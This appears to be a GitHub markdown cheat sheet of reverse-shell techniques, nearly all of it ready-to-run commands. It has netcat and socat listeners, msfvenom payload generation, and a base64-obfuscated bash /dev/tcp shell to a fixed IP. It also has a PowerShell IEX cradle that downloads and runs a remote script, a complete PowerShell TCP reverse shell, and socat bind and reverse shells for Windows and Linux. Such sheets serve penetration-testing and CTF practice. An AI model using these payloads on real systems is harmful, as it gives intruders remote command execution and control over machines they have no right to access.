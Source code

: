 ## Invoke listener for a reverse shell
```bash
# Netcat
rlwrap nc -nlvp 4444

# Socat
socat TCP-L:4444 -
```
## Generate shell using msfvenom
```bash
msfvenom -p PAYLOAD -f FORMAT -a ARCHITECTURE LHOST=127.0.0.1 LPORT=4444
```
## Base64 technique
```bash
# Encode shell using Base64
echo -n "/bin/bash -i >& /dev/tcp/10.10.10.10/9001 0>&1" | base64

# Execute shell
echo -n L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjEwLjEwLzkwMDEgMD4mMQ== | base64 -d | bash
```
## Upgrade / Stabilize Shell
```bash
python -c 'import pty; pty.spawn("/bin/bash")
```
```bash
export TERM=xterm
```
## Windows Reverse Shell
```cmd
powershell IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.10:8080/revshell.ps1')
```
```powershell
$socket = new-object System.Net.Sockets.TcpClient("10.10.10.0",4444);
if($socket -eq $null){exit 1}
$stream = $socket.GetStream();
$writer = new-object System.IO.StreamWriter($stream);
$buffer = new-object System.Byte[] 1024;
$encoding = new-object System.Text.AsciiEncoding;
do{
	$writer.Write("[spidersec]> ");
	$writer.Flush();
	$read = $null;
	while($stream.DataAvailable -or ($read = $stream.Read($buffer, 0, 1024)) -eq $null){}
	$out = $encoding.GetString($buffer, 0, $read).Replace("`r`n","").Replace("`n","");
	if(!$out.equals("exit")){
		$out = $out.split()
	        $res = [string](&$out[0] $out[1..$out.length]);
		if($res -ne $null){ $writer.WriteLine($res)}
	}
}While (!$out.equals("exit"))
$writer.close();$socket.close();
```
## Using socat
```bash
# Windows Reverse
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes

# Windows Bind (on target)
socat TCP-L:<PORT> EXEC:powershell.exe,pipes

# Linux Reverse
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"

# Linux Bind (on target)
socat TCP-L:<PORT> EXEC:"bash -li"

# Connect to waiting socat bind listener
socat TCP:<TARGET-IP>:<TARGET-PORT> -
```
## Upgrade Normal Shell to Meterpreter (Metasploit)
[https://infosecwriteups.com/metasploit-upgrade-normal-shell-to-meterpreter-shell-2f09be895646](https://infosecwriteups.com/metasploit-upgrade-normal-shell-to-meterpreter-shell-2f09be895646)
## Resources
- [https://www.revshells.com/](https://www.revshells.com/)